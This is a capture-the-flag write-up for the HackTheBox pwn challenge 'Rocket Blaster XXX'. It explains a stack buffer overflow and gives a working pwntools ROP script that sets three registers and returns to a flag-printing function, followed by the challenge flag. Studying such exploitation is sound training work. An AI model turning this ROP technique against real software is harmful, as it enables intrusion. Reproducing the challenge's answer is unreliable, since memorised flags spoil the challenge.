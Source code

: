 # Rocket Blaster XXX
> Write-up author: jon-brandy

## Lessons Learned:
1. ROP gadgets.
2. Manipulate return address.
3. Popping 3 gadgets.

## DESCRIPTION:

<p align="justify">Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!</p>

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2cdc17fb-5d88-45ec-8a5e-7064831289ec)

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b1dcc35f-4b1c-4a7d-8c56-d1ebb6adf6d9)

2. Upon reviewing the decompiled code on ghidra, we can see the main() function only accepts 1 input then terminate the process.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f536ba1-7a27-4e01-8a2e-948f1ff74397)


3. Reviewing other functions, we noticed a function named `fill_ammo` which opens the flag file then print it's content.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/227056a6-41a1-48c7-aeaa-b27fe8e5fabd)


4. Seems the objective here is to return to `fill_ammo`. Noticed the `fill_ammo` function accepts 3 params, those 3 also used for a checker.
5. However since there is no canary and PIE is disabled, hence it's very easy for us to pwn the binary.

> GET RIP OFFSET --> 40

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/36e46731-9e73-47e8-b89a-fbf0904df6e2)


6. Great! Next, let's search for useful gadgets.
7. Popping 3 values to param, means we need RDI (as the 1st arg), RSI (as the 2nd arg), and RDX (as the 3rd arg).

> CHECK FOR GADGETS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/65206058-c5e4-499d-932a-6e217ab06019)


8. Nice! The gadgets are available.
9. We can do simple ROP then, here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = process(exe)

rop = ROP(elf)
p = flat([
    cyclic(40),
    rop.find_gadget([
        'ret'
    ]).address,
    rop.find_gadget([
        'pop rdi',
        'ret'
    ]).address,
    0xdeadbeef,
    rop.find_gadget([
        'pop rsi',
        'ret'
    ]).address,
    0xdeadbabe,
    rop.find_gadget([
        'pop rdx',
        'ret'
    ]).address,
    0xdead1337,
    elf.sym['fill_ammo']
])

sh.sendline(p)
sh.interactive()
```

> REMOTE TEST






## FLAG

```
HTB{b00m_b00m_b00m_3_r0ck3t5_t0_th3_m00n}
```

